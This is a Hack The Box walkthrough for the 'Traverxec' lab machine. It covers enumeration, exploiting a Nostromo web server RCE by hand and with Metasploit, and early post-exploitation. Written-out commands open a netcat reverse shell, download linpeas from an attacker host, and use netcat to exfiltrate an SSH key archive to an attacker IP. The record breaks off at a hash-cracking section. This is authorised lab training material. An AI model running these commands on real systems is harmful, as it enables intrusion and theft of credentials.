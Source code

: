 ```yaml
---
title: "Traverxec"
excerpt: "Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE)."
#layout: single
header:
  image: "/images/writeups.png"
  teaser: /images/traverxec/traverxec_bio.png
share_image: /images/traverxec/traverxec_bio.png
author_profile: false
tags:
  - Writeup
  - kali
  - hack the box
sidebar:
  - nav: sidebar-traverxec
classes: 
   - wide
   - dark
toc: true
---
```


# Overview

Traverxec is an easy linux box that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user's home directory reveals that the user can execute `journalctl` as root, which is exploited to spawn a `root` shell!

---

# Enumeration

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.165 | grep ^[0-9] | cut -d '/' -f
1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.10.165
```

![Initial NMAP](/images/traverxec/nmap.png)

Once the scan completes, it reveals ports 22 and 80 are open. NMAP also reports that the `http-server-header` is `nostromo 1.9.6`, which indicates the box is running the `Nostromo` HTTP server.

---

# Nostromo

![Nostromo](/images/traverxec/nostromo.png)

The webpage appears to be pretty empty, resulting in very little information at first look. So, we fire off a gobuster:

```bash
gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -n
```

While we let gobuster run in the background, I look to Google. After a bit of digging, we find that Nostromo version 1.9.6 has a <a href="https://www.exploit-db.com/exploits/47837">Remote Code Execution</a> vulnerability. Being that this exploit is found on Exploit-DB, that usually means there is a Metasploit module for it - which means we can "manually" exploit it or use Metasploit. I'll show both ways.

---
# "Manual" exploitation

First, we need to copy the exploit from exploit-db and inspect it:

```bash
searchsploit -m /multiple/remote/47837
```


![Exploit](/images/traverxec/payload.png)

**The heck is going on?**

Interesting. We're exploiting the `http_verify` function in nostromo nhttpd. Which is allowing us remote code execution. Let's test it out:

```bash
python 47837.py 10.10.10.165 80 id
```
![Response](/images/traverxec/id.png)

Ok, cool, we got a response. Lets setup a listener and try to get a shell:

```bash
nc -lvnp 9001
```

```bash
python 47837.py "nc -e bash 10.10.10.165 9001"
```

And........ We get a shell

---
# Metasploit

Now that we've manually exploited Nostromo, let's automate it with `Metasploit`.

```bash
msfconsole
msf > use exploit/multi/htto/nostromo_code_exec
msf > set rhost 10.10.10.165
msf > set lhost 10.10.14.40
msf > run
```
> *Make sure you set lhost to YOUR machines IP.*

![Metasploit](/images/traverxec/metasploit.png)

After we fire off the exploit, we get a shell:

![Metasploit-Shell](/images/traverxec/meta-shell.png)

---
# Stabelize Shell
Let's move forward with our manual shell. But first, we need to stabelize it. I don't know about you, but I can't live without TAB auto-cmplete!

The target machine is Linux, so it *SHOULD* have `Python` installed, but lets check anyway.
```bash
which python
/usr/bin/python
```
*Let's spawn a TTY shell!* 
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z (to background)
stty raw -echo
fg [enter] (to send to foreground)
```
We should now have a stable shell!

---
# Automated Target Enumeration

I think it's important to always have some sort of enumeration running while we're working. So, one of the first things I do on a box is to get some sort of automated enuermation running. For Linux, I like to use `Linpeas`. There's a couple of ways we can get this onto the box, but normally I'll just `wget` it from my kali box.

*On Attacker Machine, in the Linpeas directory*
```bash
python -m SimpleHTTPServer
```

*On Target Machine*
```bash
cd /tmp/
wget 10.10.14.10:8000/linpeas.sh
```
![Linpeas](/images/traverxec/linpeas-wget.png)

Now that we have Linpeas, we use `chmod +x` to make it an executable and then `.\linpeas.sh` to run it.

![Linpeas](/images/traverxec/linpeas.png)

---
# Manual Target Enumeration

We have linpeas running, so now we can start manually enumerating the box. We check `/etc/passwd` and find the user `David` exists. It also shows us the web root for nostromo is `/var/nostromo/`. The `/var/nostromo/conf` directory, which contains the `.htpasswd` which leaks a crackable hash. We also find the file `nhttpd.conf` which reveals some interesting information. The file has a section called `HOMEDIRS` and hints towards `public_www` folders in a user's home directory.

```bash
ls -la /home/david/public_www/
ls -la /home/david/public_www/
```

![Protected-Area](/images/traverxec/enum-protected.png)

**BINGO!** We find `backup-ssh-identity-files.tgz`. Let's exfiltrate it!

*On Attacker Machine*
```bash
nc -lvp 1234 > backup-ssh-identity-files.tgz
```

*On Target Machine*
```bash
nc 10.10.14.40 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```
Let's extract the files. 

```bash
tar -xvf backup-ssh-identity-files.tgz
```
The archive contains SSH keys, one of them being the private key `id_rsa`.

*Before we continue, lets check in on Linpeas*

![Linpeas-Hash](/images/traverxec/linpeas-hash.png)

Looks like it found the same hash we did. Time to crack it!

---
### Hashcat

> As a disclaimer, this is a small rabbit-hole, but not entirely useless. If you didn't find the hidden directory in David's home directory, this was another way to get the same end result.



